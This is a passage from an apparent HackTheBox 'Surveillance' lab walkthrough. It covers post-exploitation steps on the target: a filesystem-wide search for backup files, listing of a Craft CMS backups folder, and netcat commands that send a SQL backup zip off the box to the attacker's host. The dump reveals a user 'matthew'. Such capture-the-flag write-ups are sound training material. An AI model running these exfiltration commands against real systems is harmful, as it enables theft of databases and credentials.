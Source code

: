 It is possible to see that there is a user Matthew who logged in last time. Searching for backup files

`find / -name "*.*bak*" -or -name "*.backup*" 2>/dev/null`

I found a folder `~/html/craft/storage/backups`

- `ls -la ~/html/craft/storage/backups`
    
    ![Untitled](../assets/img/hackthebox/Surveillance/Untitled%209.png)
    

Transferred the file via netcat.

```csharp
nc -lvnp 3340 < surveillance--2023-10-17-202801--v4.4.14.sql.zip 
nc 10.10.11.245 3340 > surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

- `surveillance--2023-10-17-202801--v4.4.14.sql` → *It is possible to see that it adds a user matthew in the SQL*
    
    ![Untitled](../assets/img/hackthebox/Surveillance/Untitled%2010.png)
    